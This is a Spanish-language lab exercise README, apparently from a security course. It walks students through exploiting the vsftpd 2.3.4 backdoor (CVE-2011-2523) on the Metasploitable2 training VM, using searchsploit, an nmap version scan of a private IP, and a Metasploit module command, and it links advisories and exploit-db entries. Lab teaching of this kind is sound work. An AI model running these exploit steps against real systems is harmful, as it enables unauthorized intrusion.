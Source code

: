 # Práctica de Laboratorio 1 - Explotación de vulnerabilidades en `metasploitable2`

## Objetivos

- Explorar la máquina `metasploitable2` con `nmap`.
- Explotar la vulnerabilidad `vsftpd 2.3.4` con `metasploit`.

## Actividades

- Buscar información sobre la vulnerabilidad `vsftpd 2.3.4`.

[Reporte de Incibe](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2011-2523)

Se puede buscar en la base de datos de `searchsploit`:

```bash
searchsploit vsftpd 2.3.4
```

![alt text](image-1.png)

- Realizar un escaneo de la máquina `metasploitable2` y encontrar en qué puerto se está corriendo el servicio `vsftpd 2.3.4`.

```bash
nmap -sV 192.168.0.21
# -s para escaneo de servicios
# -V para ver la versión del servicio.
```

Resultado:

![alt text](image.png)

- Usar `metasploit` para explotar la vulnerabilidad ya mencionada.

```bash
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOST"
```

## Recursos extra

[Incibe](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2011-2523)

[Exploit-db](https://www.exploit-db.com/exploits/17491)

[Exploit-db](https://www.exploit-db.com/exploits/49757)

[ScaryBeastSecurity](https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html)
